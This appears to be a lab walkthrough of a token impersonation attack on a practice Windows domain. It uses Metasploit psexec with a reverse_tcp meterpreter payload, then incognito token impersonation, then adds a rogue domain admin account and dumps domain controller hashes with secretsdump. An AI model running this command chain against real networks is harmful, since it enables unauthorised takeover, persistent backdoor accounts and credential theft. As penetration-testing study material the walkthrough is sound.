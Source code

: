 We are going to use Metasploit for this. There are also other tools like incognito (standalone tool)

## Establish a shell

We are using the metasploit module *exploit/windows/smb/psexec* in order to get a shell on THEPUNISHER:
```msfconsole
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
set rhosts 10.0.0.19
set smbuser frank
set smbpass Password1
set smbdomain MARVEL.local
set lhost 10.0.0.11
```

Upon running the exploit we get a shell:
![[Pasted image 20240321170347.png]]

**Optional:** Check our privileges:
![[Pasted image 20240321170506.png]]
Issue the command `exit` to return to the meterpreter shell.

## Incognito module

Make sure that *frank* is logged in on THEPUNISHER, such that a delegation token exists. 
Load incognito module in msfconsole:
```msfconsole
load incognito
```
![[Pasted image 20240321170800.png]]

When we type in `help` we can see the available *incognito* commands:
![[Pasted image 20240321170841.png]]

List user tokens:
```msfconsole
list_tokens -u
```

Results:
![[Pasted image 20240321171221.png]]

Impersonate frank:
```msfconsole
impersonate_token MARVEL\\frank
```

Impersonation successful! Check who we are in the system shell:
![[Pasted image 20240321171439.png]]

Undo impersonation with *rev2self*:
(_rev2self_ = Revert back to the original user you used to compromise the target)
```msfconsole
rev2self
```

### Impersonate administrator

Login into THEPUNISHER with the domain administrator account. This will create a delegate token for the domain admin, which we can impersonate via our local administrator access.

List user tokens again:
```msfconsole
list_tokens -u
```

From the output we can see that now we have a delegation token of the domain admin:
![[Pasted image 20240321172033.png]]

Impersonate the domain admin:
```msfconsole
impersonate_token MARVEL\\administrator
```

We escalated our privileges now to a domain admin:
![[Pasted image 20240321172235.png]]

## Create a new domain admin user

We now create a new user **hawkeye** with the password **Password1@**:
```msfconsole
net user /add hawkeye Password1@ /domain
```

Successfully create the new user:
![[Pasted image 20240321172538.png]]

Add the user to the domain admin group:
```msfconsole
net group "Domain Admins" hawkeye /ADD /DOMAIN
```

Success:
![[Pasted image 20240321172743.png]]

This is it, we create a new domain admin user :D

**Proof:**
In a new console window use *secretsdump.py* on the DC:
```bash
secretsdump.py MARVEL.local/hawkeye:'Password1@'@10.0.0.18 
```

![[Pasted image 20240321173230.png]]